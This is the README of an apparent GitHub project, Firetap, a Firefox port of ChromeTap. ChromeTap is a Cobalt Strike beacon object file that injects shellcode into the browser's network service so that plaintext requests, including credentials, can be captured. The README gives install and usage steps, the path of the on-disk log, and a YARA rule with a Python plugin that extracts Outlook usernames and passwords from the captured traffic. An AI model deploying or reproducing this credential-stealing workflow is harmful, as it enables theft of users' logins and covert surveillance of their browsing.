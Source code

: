 # Firetap

This is a Firefox port of bats3c's ChromeTap project. All credit to the original project goes to bats3c, he's an awesome researcher and it was a great project to learn injection with beacon object files. 









# ChromeTap

Place a wiretap on chrome and steal secrets.

### Overview

ChromeTap is a beacon object file that will inject shellcode into chrome's network service that will place hooks allowing for plain text requests to be stolen before they are sent along the wire.  It solely uses direct syscalls to do this and is careful of its memory permissions. 

### Install

``` bash
$ git clone https://github.com/bats3c/ChromeTools
$ cd chrometools/chrometap
$ pip3 install -r huntforsecrets/requirements.txt && make
```

### Usage

- Load the CNA into cobalt strike

![image-20210106122513885](imgs/image-20210106122513885.png)

- Run the command `chrometap`. This will overwrite the current log file so make sure its backed up if running the command multiple times.

  ![image-20210106122905830](imgs/image-20210106122905830.png)

- Once you have left it running for a while and think the user might have entered credentials into a website, download the log file which is stored in `C:\windows\temp\chromecrash.log` 

  ![image-20210106123621620](imgs/image-20210106123621620.png)

  The log file is going to be quite big, but that's just due to the technique used to steal the data. The good news is that it will compress really well so is worth compressing on disk before downloading.

  ![image-20210106124205776](imgs/image-20210106124205776.png)

- With the log file now on your local machine you can use the `./hunt.py` command to find secrets inside it

  ![image-20210106124833240](imgs/image-20210106124833240.png)

### Writing Plugins and Rules

`hunt.py` is only able to extract secrets from requests that have supported YARA rules and plugins. These are super easy to write. Here's an example of writing a them to extract data from outlook logins.

Looking at the HTTP login request its possible to pick out strings that are specific to the request and can be used to identify it.

![image-20210106131623124](imgs/image-20210106131623124.png)

Allowing a YARA rule, like the one below, to find it.

YARA rules should be stored in the `rules/` directory and both file name and rule name can be anything you like. 

```
rule outlook_creds {
    meta:
        author = "@_batsec_"
        plugin = "outlook_parse"
    strings: 
        $str1 = "login.live.com" 
        $str2 = "login=" 
        $str3 = "hisScaleUnit="
        $str4 = "passwd="
    condition: 
        all of them 
}
```

When `hunt.py` finds a match, it uses the value of the `plugin` variable in the rule as the name of the plugin to load and parse the request.

A plugin is just a function in the `plugins.py` file. 

It will be given the raw request as a bytes object and should return a dictionary containing the name and secret of everything it finds, e.g. `{'site': 'login.live.com', 'username': 'asdf%40asdf.com', 'password': 'ThisIsMyVerySecurePassword123%21'}`.

The plugin to parse the outlook request is shown below.

```python
def outlook_parse(request):

    creds = {}

    creds['site'] = 'login.live.com'

    login = re.search(rb'login=(.*)&', request).group(1).decode()
    login = login[:login.index('&')]
    creds['username'] = login

    passwd = re.search(rb'passwd=(.*)&', request).group(1).decode()
    passwd = passwd[:passwd.index('&')]
    creds['password'] = passwd
    
    return creds
```

Feel free to DM me if you find any bugs or have any questions.
